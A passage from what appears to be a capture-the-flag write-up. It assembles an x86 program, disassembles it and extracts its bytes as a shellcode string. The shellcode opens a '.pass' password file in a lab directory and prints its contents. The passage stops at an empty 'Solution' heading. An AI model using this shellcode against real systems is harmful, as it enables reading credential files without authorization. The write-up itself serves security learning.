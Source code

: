 You can now create a file and assemble it.

```shell
nano read_shellcode.asm
nasm -f elf read_shellcode.asm
ld -o read_shellcode read_shellcode.o
````

Then, we can check the code and generate a shellcode.

```shell
$ objdump -M intel -d read_shellcode

read_shellcode:     file format elf32-i386


Disassembly of section .text:

08048060 <_start>:
 8048060:   31 c9                   xor    ecx,ecx
 8048062:   51                      push   ecx
 8048063:   68 70 61 73 73          push   0x73736170
 8048068:   68 33 41 2f 2e          push   0x2e2f4133
 804806d:   68 2f 6c 61 62          push   0x62616c2f
 8048072:   68 68 6f 6d 65          push   0x656d6f68
 8048077:   68 2f 2f 2f 2f          push   0x2f2f2f2f
 804807c:   89 e3                   mov    ebx,esp
 804807e:   31 c0                   xor    eax,eax
 8048080:   b0 05                   mov    al,0x5
 8048082:   cd 80                   int    0x80
 8048084:   89 c7                   mov    edi,eax
 8048086:   31 d2                   xor    edx,edx
 8048088:   b2 32                   mov    dl,0x32
 804808a:   89 e1                   mov    ecx,esp
 804808c:   89 fb                   mov    ebx,edi
 804808e:   b0 03                   mov    al,0x3
 8048090:   cd 80                   int    0x80
 8048092:   b3 01                   mov    bl,0x1
 8048094:   b0 04                   mov    al,0x4
 8048096:   cd 80                   int    0x80

# Quick trick to extract the shellcode from the binary
$ for i in $(objdump -d read_shellcode -M intel |grep "^ " |cut -f2); do echo -n '\x'$i; done;echo

\x31\xc9\x51\x68\x70\x61\x73\x73\x68\x33\x41\x2f\x2e\x68\x2f\x6c\x61\x62\x68\x68\x6f\x6d\x65\x68\x2f\x2f\x2f\x2f\x89\xe3\x31\xc0\xb0\x05\xcd\x80\x89\xc7\x31\xd2\xb2\x32\x89\xe1\x89\xfb\xb0\x03\xcd\x80\xb3\x01\xb0\x04\xcd\x80
```

We have our shellcode, now we can solve the challenge!

## Solution
